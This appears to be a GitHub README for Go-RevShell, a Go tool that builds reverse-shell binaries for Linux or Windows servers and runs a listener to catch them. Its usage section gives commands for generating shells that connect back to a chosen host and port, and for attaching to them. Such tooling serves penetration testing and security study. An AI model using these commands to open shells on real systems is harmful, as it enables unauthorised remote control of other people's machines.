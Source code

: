 ![Go-RevShell-Banner](img/Go-RevShell-Banner.jpeg)

Go-RevShell NOT STABLE - LINUX VERSION TO BE TESTED
=======

Pure standard Golang implementation of a reverse-shell generator and a tcp listener. PTY RevShell not ready.

## Table of content
- [Go-RevShell](#go-revshell)
  - [Table of content](#table-of-content)
  - [Usage](#usage)
    - [Build a reverse shell](#build-a-reverse-shell)
    - [Attach to reverse shell](#attach-to-reverse-shell)
  - [Screenshots](#screenshots)
  - [Todo List](#todo-list)


## Usage
```text
  -i string
        IP of the host which the reverse shell will connect to. (default "localhost")
  -l string
        Port to listen (you can use this argument to bind to your reverse shell). (default "0")
  -p string
        Port of the host which the reverse shell will connect to. (default "1111")
  -s string
        OS of the server which will start the reverse shell (used to build the right binary) available : "windows", "linux". (default "linux")
  -t string
        Template to use to generate the reverse shell. Available : "native", "tty". (default "native")
```

### Build a reverse shell

* Build a native shell for linux server : ```go run main.go -s linux```
* Build a TYY shell for linux server : ```go run main.go -t tty -s linux```
* Build a TYY shell for linux server, with client ip and port : ```go run main.go -t tty -s linux -i myhost.com -p 1111```
* Build a native shell for windows server : ```go run main.go -s windows```

### Attach to reverse shell

* Listen to port 1111 ```go run main.go -l 1111```
* Listen to port 3412 ```go run main.go -l 3412```

## Screenshots

![Go-RevShell-Generate](img/Go-RevShell-Generate.png)
![Go-RevShell-Attach](img/Go-RevShell-Attach.png)

## Todo List

* Fix pty shell
* More tests across different os
* Refresh and anon screenshots
* Publish package and refresh ##Usage

**[`^        back to top        ^`](#)**
